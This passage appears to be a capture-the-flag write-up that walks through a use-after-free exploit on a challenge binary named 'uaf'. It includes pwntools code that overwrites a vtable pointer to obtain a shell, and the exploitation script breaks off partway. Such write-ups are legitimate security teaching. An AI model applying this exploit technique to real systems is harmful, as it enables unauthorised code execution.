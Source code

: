 looking on the same offsets, we now have `AAAAA` where the address to the `vtable` was!
Amazing!
## Exploit
We can now use python to calculate the new address:
```python
import pwn
real_table = 0x0000000000401570
new_table = real_table - 8
addr = pwn.p64(new_table)
b'h\x15@\x00\x00\x00\x00\x00'
```
Remember we need to fill to 24 bytes, our address is 8 bytes (including the null bytes) so we need `16` more bytes.
```python
import pwn
import sys

real_table = 0x0000000000401570
new_table = real_table - 8
addr = pwn.p64(new_table)
filler = b'a'*16
payload = addr + filler

sys.stdout.buffer.write(payload)
```
save it as `payload.py` and run:
```bash
python3 payload.py > /tmp/a
```
To get the file ready.

And to exploit:
![manual_exploit](https://github.com/user-attachments/assets/7ebc8476-0409-47aa-aa54-f31fab9d5cb1)

And we got a shell.
Let's develop an exploit script.
## Exploitation script
The server has only `python2`:
```python
import pwn

def generate_payload():
	real_table = 0x0000000000401570
	new_table = real_table - 8
	addr = pwn.p64(new_table)
	filler = 'a'*16
	payload = addr + filler
	return payload

def execute(filename):
	elf = pwn.context.binary = pwn.ELF("./uaf")
	p = elf.process(['24' , filename])
	p.recvuntil("free")
	p.sendline("3")
	pwn.log.info("Freed 2 chunks")

	p.recvuntil("free")
	p.sendline("2")
	p.recvuntil("free")
	p.sendline("2")

	pwn.log.info("Changed memory")

```
